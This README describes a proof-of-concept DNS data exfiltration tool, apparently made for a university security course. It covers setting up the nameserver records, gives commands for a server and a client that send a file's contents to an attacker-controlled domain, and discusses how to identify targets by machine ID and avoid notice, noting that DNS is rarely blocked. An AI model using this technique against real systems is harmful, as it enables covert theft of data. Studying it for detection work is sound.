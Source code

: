# DNS Data Exfiltration

The Domain Name System (DNS) is a hierarchical and distributed naming system that maps human-readable domain names to IP addresses.
Since DNS traffic is rarely blocked by most organisations that require access to the Internet, the DNS protocol serves as an attractive medium through which data can be exfiltrated.
This repository contains a proof-of-concept that explores the use of the DNS protocol to exfiltrate data.

## Setting Up DNS Records

In order for DNS exfiltration to work, we need to set up our own DNS server that is the authoritative nameserver for some domain.

1. Create an A record pointing to the IP address of the DNS server to exfiltrate data to.
1. Create an NS record pointing to the previously created A record.

   This NS record will be used as the domain for all of our DNS queries.

## Running the DNS Exfiltration Server

DNS requests that reach the DNS exfiltration server are parsed according to the specified format.
Multiple DNS requests are processed and the data inside the files being exfiltrated are reconstructed and written to disk with their original file paths in `./exfiltrated-data/<machine ID>/<file path>`.
This preserves the structure of the files when exfiltrating directories of files.

Example of running the DNS exfiltration server:
```sh
make compile
sudo ./dns-exfiltration-server -n cs5231.ianyong.com
```

Note that root privileges are required to bind to port 53 as it is as well-known port for DNS.
Once the server has binded to the port, it will drop its privileges to that of the calling user.

In addition, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must also be passed in as a command line argument.
This is necessary for the server to know which parts of the DNS request name correspond to the data being exfiltrated.

## Running the DNS Exfiltration Client

The client takes in a file path, reads the file, and breaks its content up into chunks to exfiltrate over DNS.

Example of running the DNS exfiltration client:
```sh
make compile
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt
```

Similar to the DNS exfiltration server, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must be passed in as a command line argument.
The client also takes in the path of the file to be exfiltrated.

Optionally, the delay in milliseconds between DNS requests can be specified via the `-d` argument:
```sh
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt -d 500
```

The above example adds a 500ms delay between the sending of each DNS request.

## Design Decisions

### Identifying Targets

Targets cannot be identified via the IP address seen by the server.
This is because our DNS server will not be the local DNS server that the target talk to.
As such, regardless of the DNS query type (iterative or recursive), our DNS server never talks directly to the target.

In addition, some local DNS servers have a range of IP addresses which they use to communicate to other DNS servers.
Given the connectionless nature of UDP (the transport protocol used by DNS), every DNS request that we receive from the same target can come from different IP addresses.

In order to be able to handle simultaneous traffic from multiple hosts, as well as to uniquely identify targets which we exfiltrate data from, we make use of the machine ID of the target machine.
The machine ID is a unique string that is set during installation of the operating system.
We make use of the [machineid](https://github.com/denisbrodbeck/machineid) library to retrieve the machine ID from the target.

## Limitations

### DNS Caching

The DNS responses sent by the server have a Time-To-Live (TTL) of 300 seconds.
This is because setting it any lower might result in some DNS resolvers to ignore its value.
As a result, trying to exfiltrate the same file will not work until some time has passed (likely 5 minutes if the TTL is respected, possibly longer).
This is not a big issue as long as the exfiltration does not fail halfway through as we are unlikely to need to exfiltrate a recently exfiltrated file.

## Possible Improvements

### Sending Concurrent DNS Requests

Currently, the client will wait for a response from the server before sending the next DNS request.
Exfiltration of data can be sped up if we were to allow for concurrent DNS requests to be sent even though their respective responses have yet to be received.
However, this would necessitate the implementation of a protocol to handle out-of-order packet delivery, which would complicate this proof-of-concept.
